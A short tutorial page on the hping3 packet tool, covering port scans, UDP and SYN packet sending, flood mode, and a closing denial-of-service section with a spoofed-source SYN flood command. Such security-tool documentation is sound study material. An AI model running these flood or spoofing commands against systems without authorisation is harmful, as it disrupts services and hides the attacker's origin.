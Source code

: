 ```yaml
---
path: "/tutorials/securitypentesttools/hping3"
date: "2020-03-29"
title: "hping3"
---
```


hping3 is a tool for sending arbitrary packets to network hosts. It's similar to the ping command, but works specifically for TCP/IP packets. Given that this tool uses TCP/IP rather than ICMP packets it can be used for much more than ping. 

```bash
hping3 -c 3 <IPAddress>
```

* This will send 3 TCP/IP packets to the IP address you target. You'll get a response similar to the *ping* command showing the number of packets sent and the replies received.

```bash
hping3 --scan 1-500 -S <myIPAddress>
```
* *--scan* - Specifies the range of ports to scan.
* *-S* - Performs a SYN scan.
* This scan will show the open ports on the target along with some information about the open ports.

```bash
hping3 <myIPAddress> --udp --rand-source --data 1000
```
* This will send UDP packets to the target from a 'random' source. This could be used to flood a network with packets. 
* *--data 1000* - This specifies the size of the packet you'd like to send.

```bash
hping3 -S <myIPAddress> -p 80 -c 10
```
* This sends 10 SYN packets to port 80.

```bash
hping3 <myIPAddress> --flood
```
* This will flood the target with packets as fast as possible. This mode does not show replies by default.

###Denial of Service

As well as scanning hping3 can be used to perform denial of service (DOS) attacks. This is very easy to do with the following command.

```bash
hping3 -S <targetIP> -a <hostIP> -p22 --flood
```

* *-S* - Sets the SYN flag in the packets.
* *-a* - Allows you to set the IP address of the source, this allows you to spoof the source address.
* *-p* - Sets the port.
* *--flood* - Tells hping3 to flood the target with packets.